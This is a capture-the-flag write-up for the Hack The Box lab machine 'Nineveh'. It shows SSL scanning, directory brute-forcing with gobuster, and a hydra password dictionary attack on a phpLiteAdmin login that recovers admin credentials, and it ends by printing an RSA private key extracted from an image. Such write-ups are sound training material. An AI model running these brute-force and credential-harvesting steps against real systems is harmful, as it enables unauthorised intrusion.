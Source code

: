 
- Running SSLScan
```bash
sslscan --show-certificate --no-colour 10.10.10.43:443 2>&1
```
- CN=nineveh.htb - added this to /etc/hosts
- email: admin@nineveh.htb

- Running Gobuster for root directory
```bash
gobuster dir -u https://10.10.10.43 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -t 50 -x html,php,txt,sh,js,xml -o gob/root.htb -k

/index.html           (Status: 200) [Size: 49]
/db                   (Status: 301) [Size: 309] [--> https://10.10.10.43/db/]
/server-status        (Status: 403) [Size: 300]
/secure_notes         (Status: 301) [Size: 319] [--> https://10.10.10.43/secure_notes/]
```

- Navigating to /db/ presents us a login portal for phpLiteAdmin v1.9
- Since there is only one parameter for this form, I perform a dictionary attack. Note the https-post-form instead of http-post-form
```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.10.43 -s 443 https-post-form '/db/index.php:password=^PASS^&remember=yes&login=Log+In&proc_login=true:Incorrect password.' -f -vV

[443][http-post-form] host: 10.10.10.43   login: admin   password: password123
```
- Credentials `admin:password123` authenticate us


- The image @ https://10.10.10.43/secure_notes/ has a RSA private key embedded
```bash
strings nineveh.png
...<snip>...
-----BEGIN RSA PRIVATE KEY-----
MIIEowIBAAKCAQEAri9EUD7bwqbmEsEpIeTr2KGP/wk8YAR0Z4mmvHNJ3UfsAhpI
H9/Bz1abFbrt16vH6/jd8m0urg/Em7d/FJncpPiIH81JbJ0pyTBvIAGNK7PhaQXU
PdT9y0xEEH0apbJkuknP4FH5Zrq0nhoDTa2WxXDcSS1ndt/M8r+eTHx1bVznlBG5
FQq1/wmB65c8bds5tETlacr/15Ofv1A2j+vIdggxNgm8A34xZiP/WV7+7mhgvcnI
3oqwvxCI+VGhQZhoV9Pdj4+D4l023Ub9KyGm40tinCXePsMdY4KOLTR/z+oj4sQT
X+/1/xcl61LADcYk0Sw42bOb+yBEyc1TTq1NEQIDAQABAoIBAFvDbvvPgbr0bjTn
KiI/FbjUtKWpWfNDpYd+TybsnbdD0qPw8JpKKTJv79fs2KxMRVCdlV/IAVWV3QAk
FYDm5gTLIfuPDOV5jq/9Ii38Y0DozRGlDoFcmi/mB92f6s/sQYCarjcBOKDUL58z
GRZtIwb1RDgRAXbwxGoGZQDqeHqaHciGFOugKQJmupo5hXOkfMg/G+Ic0Ij45uoR
JZecF3lx0kx0Ay85DcBkoYRiyn+nNgr/APJBXe9Ibkq4j0lj29V5dT/HSoF17VWo
9odiTBWwwzPVv0i/JEGc6sXUD0mXevoQIA9SkZ2OJXO8JoaQcRz628dOdukG6Utu
Bato3bkCgYEA5w2Hfp2Ayol24bDejSDj1Rjk6REn5D8TuELQ0cffPujZ4szXW5Kb
ujOUscFgZf2P+70UnaceCCAPNYmsaSVSCM0KCJQt5klY2DLWNUaCU3OEpREIWkyl
1tXMOZ/T5fV8RQAZrj1BMxl+/UiV0IIbgF07sPqSA/uNXwx2cLCkhucCgYEAwP3b
vCMuW7qAc9K1Amz3+6dfa9bngtMjpr+wb+IP5UKMuh1mwcHWKjFIF8zI8CY0Iakx
DdhOa4x+0MQEtKXtgaADuHh+NGCltTLLckfEAMNGQHfBgWgBRS8EjXJ4e55hFV89
P+6+1FXXA1r/Dt/zIYN3Vtgo28mNNyK7rCr/pUcCgYEAgHMDCp7hRLfbQWkksGzC
fGuUhwWkmb1/ZwauNJHbSIwG5ZFfgGcm8ANQ/Ok2gDzQ2PCrD2Iizf2UtvzMvr+i
tYXXuCE4yzenjrnkYEXMmjw0V9f6PskxwRemq7pxAPzSk0GVBUrEfnYEJSc/MmXC
iEBMuPz0RAaK93ZkOg3Zya0CgYBYbPhdP5FiHhX0+7pMHjmRaKLj+lehLbTMFlB1
MxMtbEymigonBPVn56Ssovv+bMK+GZOMUGu+A2WnqeiuDMjB99s8jpjkztOeLmPh
PNilsNNjfnt/G3RZiq1/Uc+6dFrvO/AIdw+goqQduXfcDOiNlnr7o5c0/Shi9tse
i6UOyQKBgCgvck5Z1iLrY1qO5iZ3uVr4pqXHyG8ThrsTffkSVrBKHTmsXgtRhHoc
il6RYzQV/2ULgUBfAwdZDNtGxbu5oIUB938TCaLsHFDK6mSTbvB/DywYYScAWwF7
fw4LVXdQMjNJC3sn3JaqY1zJkE4jXlZeNQvCx4ZadtdJD9iO+EUG
-----END RSA PRIVATE KEY-----
...<snip>...
```
